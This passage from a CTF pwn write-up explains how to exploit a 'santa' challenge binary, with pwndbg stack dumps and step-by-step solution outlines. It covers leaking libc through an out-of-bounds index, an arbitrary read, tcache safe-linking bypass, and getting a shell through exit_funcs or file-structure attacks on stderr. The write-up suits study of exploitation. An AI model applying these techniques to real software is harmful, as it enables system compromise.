25:0128│         0x7fffffffdf58 —▸ 0x7fffffffe048 —▸ 0x7fffffffe308 ◂— '/home/elmo/caprinux-github-io/content/en/posts/ctfs/2023/blahaj-ctf/attachments/pwn/christmas/santa'
26:0130│         0x7fffffffdf60 ◂— 0x0
27:0138│         0x7fffffffdf68 ◂— 0xeaa1cb2c566b5502
28:0140│         0x7fffffffdf70 —▸ 0x7fffffffe048 —▸ 0x7fffffffe308 ◂— '/home/elmo/caprinux-github-io/content/en/posts/ctfs/2023/blahaj-ctf/attachments/pwn/christmas/santa'
29:0148│         0x7fffffffdf78 —▸ 0x555555555398 (main) ◂— endbr64
2a:0150│         0x7fffffffdf80 —▸ 0x555555557d80 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555200 (__do_global_dtors_aux) ◂— endbr64
2b:0158│         0x7fffffffdf88 —▸ 0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
2c:0160│         0x7fffffffdf90 ◂— 0x155e34d3e8e95502
2d:0168│         0x7fffffffdf98 ◂— 0x155e24992ce15502
2e:0170│         0x7fffffffdfa0 ◂— 0x7fff00000000
2f:0178│         0x7fffffffdfa8 ◂— 0x0

pwndbg> vmmap 0x7ffff7ffe2e0
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
►   0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 +0x12e0
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]

```

One of the most important things that we want to leak is the LIBC address, as it will contain the necessary functions that we need in order to pop a shell on remote. At offset `2b:0158` on the stack, we can see that there is a `_rtld_global` pointer that contains an address within the `ld.so` memory space as seen above. How is an address within `ld.so` going to help us? If we actually look at the memory mapping diagram below

```
┌────────────────────┐
│                    │
│        santa       │
│       binary       │
│                    │
├────────────────────┤
│                    │
│                    │
├────────────────────┤
│                    │
│                    │
│       HEAP         │
│                    │
├────────────────────┤
│                    │
│                    │
├────────────────────┤
│                    │
│                    │
│      LIBC.SO       │
│                    │
├────────────────────┤
│                    │
│                    │
│       LD.SO        │
│                    │
├────────────────────┤
│                    │
│                    │
│                    │
├────────────────────┤
│                    │
│                    │
│      STACK         │
│                    │
│                    │
└────────────────────┘
```

We can see the different parts that make up a program's memory. Despite the ASLR, the **libc** and **ld** are directly next to each other in memory and thus there will be a fixed offset between LD and LIBC in memory. By leaking a LD pointer, we can calculate the offset to get our **libc** base address and move on to later parts of the exploit.

The offset of wishlist as shown above is `rsp+0x20` and the ld pointer is at `rsp+0x158`. Thus, we can view a wish at the index of `(0x158-0x28)/0x8 = 38` to get our libc address leak. **Now that we know how to leak the LIBC, can we go one step further to get an arbitrary read to read at any address that we want?** 

Remember that in order to read at an address, that same address has to be on the stack at a positive index from the wishlist array. If we look at the stack, **right after the wishlist array lies the `buf` array** which contains our input when the program takes in our choice. This means that we can place addresses that we want to read from into `buf`, and then use a large positive index to treat the address as a wish and read from it. 

With this, we have an extremely powerful arbitrary read primitive which allows us to read anywhere that we want in the memory as long as we know the address of the values that we want to read.

#### Arbitrary Write: Heap Overflow

Although the OOB access on the wishlist array is sufficient to solve the challenge _(in the intended way)_, to make our lives even easier and for the sake of learning, let's explore how a heap overflow is of any use to us.

Let's look at the state of the heap when we add 3 wishes to the wishlist array. This is straightforward, I have allocated 3 chunks on the heap and each of the chunk has a size of **0x30**.



Now, we will free these chunks and see what happens. As we can see from the image below, the 3 chunks has been placed in the **tcachebin**, and is stored in a linked list where each freed chunk contains an **encoded** pointer to the next freed chunk.

We can also note that there is a 8-byte tcache key that is circled in red. This key acts like a **stack canary to prevent heap overflow or use after free** -- the program will check if the key has been modified and terminate.

> The **tcachebin** is simply a series of linked lists of heap chunks of the same size that has been free-ed. The main purpose is for efficiency, to allow the allocator to quickly return these chunks when required by the program instead of releasing it back to the top chunk.

> The linked list pointers are encoded with a new safety mechanism known as tcache safe-linking that is introduced in recent version of the GLIBC. Essentially, the linked list pointer is encoded by **XOR**ing the pointer with the address where the pointer resides in, shifted to the right by 12 bits.
>
> ENCODED\_POINTER = LINKED\_LIST\_POINTER ^ (ADDRESS\_OF\_POINTER >> 12)
> 
> This is not a big issue to us as we can easily encode/decode the pointer as long as we are able to leak a heap address.




If we are able to safely overwrite the linked list pointer on the freed chunk, we might be able to trick the dynamic allocator to return us a heap chunk to anywhere that we like. This will give us an arbitrary write primitive.

#### What next?

Now that we know how to get both our **arbitrary read** and **arbitrary write** primitives, what and where can we write to? There are a few easy and known methods that we can use to get a shell

1. ROP on the stack
    - leak a stack address
    - arbitrary write onto the stack to write a rop chain that will be executed on return
    - **will not work here, since the program NEVER returns**
2. [Overwriting exit\_funcs](https://m101.github.io/binholic/2017/05/20/notes-on-abusing-exit-handlers.html)
    - leak/overwrite `pointer_guard`
    - write system and binsh string to __exit_funcs
3. [File Structure Exploitation](https://chovid99.github.io/posts/file-structure-attack-part-1/)
    - abusing file structure and vtables to pop a shell
    - this is sortof like a one-gadget kind of exploit

We have all that we need to solve the challenge. In the spirit of learning, let's try to solve this in 3 different ways and explore the different technicalities that comes with heap exploitation. This will also show us how each primitive is sufficiently powerful to solve the challenge.

### SOLUTION 1: Most Straightforward Solution, using everything mentioned so far

#### Summary

1. Add wish at negative index to overwrite `limit` 
2. After overwriting limit, leak a bunch of addresses that will be useful for us
    - libc address
    - heap address
3. Given libc address, sufficient to craft our malicious File Structure
4. Overwrite tcache chunk metadata to get arbitrary write to `_IO_2_1_stderr_`
5. Exit the program to trigger our file structure exploit chain and get a shell

### SOLUTION 2: Solve without using the heap overflow \[intended solution\]

#### Summary

1. Add wish at negative index to overwrite `limit` 
2. After overwriting limit, leak a bunch of addresses that will be useful for us
    - libc address
    - heap address
    - pointer guard
3. By putting heap addresses in `buf`, we can achieve Use After free (UAF).
    - we can do a fastbin dup to get arbitrary write
4. Overwrite exit\_funcs to call system(binsh) on exit

### SOLUTION 3: Solve without overwriting limit

#### Summary

1. Leak heap and libc address by doing fgets with size 0 to reclaim memory that has been freed but not cleared.
2. Similar to solution 1, do tcache unlinking to overwrite `_IO_2_1_stderr_`
3. Exit the program to trigger file structure exploit chain and get a shell
